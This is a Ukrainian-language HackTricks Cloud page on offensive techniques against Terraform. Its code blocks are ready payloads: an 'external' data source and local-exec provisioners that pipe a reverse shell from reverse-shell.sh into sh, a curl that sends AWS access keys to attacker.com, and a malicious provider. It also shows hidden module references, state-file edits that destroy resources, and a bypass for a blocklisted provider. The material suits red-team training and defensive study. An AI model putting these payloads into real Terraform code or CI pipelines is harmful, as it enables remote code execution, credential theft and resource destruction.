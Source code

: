 # Безпека Terraform

<details>

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Основна інформація

[З документації:](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform - це **інструмент як кодування інфраструктури**, який дозволяє визначати як **хмарні**, так і **локальні ресурси** у конфігураційних файлах, які можна версіонувати, використовувати та ділитися. Після цього ви можете використовувати послідовний робочий процес для надання та управління всією вашою інфраструктурою протягом її життєвого циклу. Terraform може керувати компонентами низького рівня, такими як обчислення, сховище та мережеві ресурси, а також компонентами високого рівня, такими як записи DNS та функції SaaS.

### Як працює Terraform?

Terraform створює та керує ресурсами на хмарних платформах та інших службах через їх програмні інтерфейси застосунків (API). Постачальники дозволяють Terraform працювати з практично будь-якою платформою або службою з доступним API.

![](<../.gitbook/assets/image (177).png>)

HashiCorp та спільнота Terraform вже написали **понад 1700 постачальників**, щоб керувати тисячами різних типів ресурсів та служб, і ця кількість продовжує зростати. Ви можете знайти всі загальнодоступні постачальники на [Реєстрі Terraform](https://registry.terraform.io/), включаючи Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog та багато інших.

Основний робочий процес Terraform складається з трьох етапів:

* **Запис:** Ви визначаєте ресурси, які можуть бути на різних хмарних платформах та службах. Наприклад, ви можете створити конфігурацію для розгортання додатку на віртуальних машинах в мережі Virtual Private Cloud (VPC) з групами безпеки та балансувальником навантаження.
* **План:** Terraform створює план виконання, описуючи інфраструктуру, яку він створить, оновить або знищить на основі існуючої інфраструктури та вашої конфігурації.
* **Застосувати:** Після схвалення Terraform виконує запропоновані операції у правильному порядку, дотримуючись будь-яких залежностей ресурсів. Наприклад, якщо ви оновлюєте властивості VPC та змінюєте кількість віртуальних машин у цьому VPC, Terraform переробить VPC перед масштабуванням віртуальних машин.

![](<../.gitbook/assets/image (215).png>)

## Лабораторія Terraform

Просто встановіть Terraform на свій комп'ютер.

Ось [посібник](https://learn.hashicorp.com/tutorials/terraform/install-cli) та ось [найкращий спосіб завантажити Terraform](https://www.terraform.io/downloads).

## RCE в Terraform

Terraform **не має платформи, яка викладає веб-сторінку або мережевий сервіс**, який ми можемо перелічити, тому єдиний спосіб компрометувати Terraform - **мати можливість додавати/змінювати файли конфігурації Terraform**.

Однак Terraform - це **дуже чутлива компонента** для компрометації, оскільки вона матиме **привілейований доступ** до різних місць, щоб працювати належним чином.

Основний спосіб для атакування, щоб мати можливість компрометувати систему, де працює Terraform, - **компрометувати сховище, де зберігаються файли конфігурації Terraform**, оскільки на деякому етапі вони будуть **інтерпретовані**.

Фактично, існують рішення, які **автоматично виконують terraform plan/apply після створення PR**, такі як **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Якщо ви зможете компрометувати файл Terraform, існують різні способи виконання RCE, коли хтось виконує `terraform plan` або `terraform apply`.

### Terraform plan

Terraform plan - це **найбільш використана команда** в Terraform, і розробники/рішення, які використовують Terraform, викликають її постійно, тому **найлегший спосіб отримати RCE** - це переконатися, що ви забруднюєте файл конфігурації Terraform, який буде виконувати довільні команди під час `terraform plan`.

#### Використання зовнішнього постачальника

Terraform пропонує [`зовнішній постачальник`](https://registry.terraform.io/providers/hashicorp/external/latest/docs), який надає можливість взаємодії між Terraform та зовнішніми програмами. Ви можете використовувати джерело даних `external`, щоб виконати довільний код під час `plan`.

Впровадження у файл конфігурації Terraform чогось на зразок наступного виконає обернену оболонку при виконанні `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Використання власного провайдера

Зловмисник може надіслати [власний провайдер](https://learn.hashicorp.com/tutorials/terraform/provider-setup) до [Реєстру Terraform](https://registry.terraform.io/) і потім додати його до коду Terraform у гілці функцій ([приклад звідси](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Постачальник завантажується в `init` і виконає зловмисний код під час виконання `plan`

Ви можете знайти приклад за посиланням [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Використання зовнішньої посилання

Обидва згадані варіанти корисні, але не дуже приховані (другий є більш прихованим, але складнішим, ніж перший). Ви можете виконати цей атаку навіть у **більш прихований спосіб**, слідуючи цим рекомендаціям:

* Замість того, щоб додавати обернену оболонку безпосередньо до файлу terraform, ви можете **завантажити зовнішній ресурс**, який містить обернену оболонку:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Можна знайти код оболонки rev за посиланням [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* У зовнішньому ресурсі використовуйте функцію **ref**, щоб приховати **код оболонки terraform rev у гілці** всередині репозиторію, щось на зразок: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Застосування Terraform

Команда Terraform apply буде виконана для застосування всіх змін, ви також можете скористатися цим для отримання RCE, впроваджуючи **зловмисний файл Terraform з** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Вам лише потрібно переконатися, що деякий вміст, подібний наступному, потрапляє в файл `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Дотримуйтесь **рекомендацій з попередньої техніки**, щоб виконати цей атаку **більш приховано, використовуючи зовнішні посилання**.

## Витік секретів

Ви можете мати **секретні значення, використані terraform, витікнуті** під час виконання `terraform apply`, додавши до файлу terraform щось на зразок:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Зловживання файлами стану Terraform

У випадку, якщо у вас є доступ на запис до файлів стану Terraform, але ви не можете змінювати код Terraform, [**це дослідження**](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/) надає деякі цікаві варіанти використання файлу:

### Видалення ресурсів <a href="#deleting-resources" id="deleting-resources"></a>

Є 2 способи знищення ресурсів:

1. **Вставте ресурс з випадковою назвою в файл стану, що вказує на реальний ресурс для знищення**

Оскільки Terraform побачить, що ресурс не повинен існувати, він його знищить (відповідно до вказаного ідентифікатора реального ресурсу). Приклад з попередньої сторінки:
```json
{
"mode": "managed",
"type": "aws_instance",
"name": "example",
"provider": "provider[\"registry.terraform.io/hashicorp/aws\"]",
"instances": [
{
"attributes": {
"id": "i-1234567890abcdefg"
}
}
]
},
```
2. **Змініть ресурс для видалення таким чином, щоб його не можна було оновити (тоді він буде видалений та перестворений)**

Для екземпляра EC2 достатньо змінити тип екземпляра, щоб Terraform видалив його та створив знову.

### RCE

Також можливо [створити власного провайдера](https://developer.hashicorp.com/terraform/tutorials/providers-plugin-framework/providers-plugin-framework-provider) та просто замінити одного з провайдерів у файлі стану Terraform на зловмисного або додати порожній ресурс зі зловмисним провайдером. Приклад з оригінального дослідження:
```json
"resources": [
{
"mode": "managed",
"type": "scaffolding_example",
"name": "example",
"provider": "provider[\"registry.terraform.io/dagrz/terrarizer\"]",
"instances": [

]
},
```
## Заміна провайдера з чорного списку

У випадку, якщо ви зіткнетеся з ситуацією, коли `hashicorp/external` був внесений до чорного списку, ви можете переімплементувати провайдер `external`, виконавши наступне. Примітка: Ми використовуємо форк провайдера external, опублікований за адресою https://registry.terraform.io/providers/nazarewk/external/latest. Ви також можете опублікувати свій власний форк або переімплементацію.
```terraform
terraform {
required_providers {
external = {
source  = "nazarewk/external"
version = "3.0.0"
}
}
}
```
Потім ви можете використовувати `external` як зазвичай.
```terraform
data "external" "example" {
program = ["sh", "-c", "whoami"]
}
```
## Інструменти аудиту

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec використовує статичний аналіз вашого коду terraform для виявлення потенційних неправильних конфігурацій.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan - це аналізатор статичного коду для Інфраструктури як коду.

## Посилання

* [Atlantis Security](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)
* [https://blog.plerion.com/hacking-terraform-state-privilege-escalation/](https://blog.plerion.com/hacking-terraform-state-privilege-escalation/)

<details>

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакінг-прийоми, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
{% endhint %}
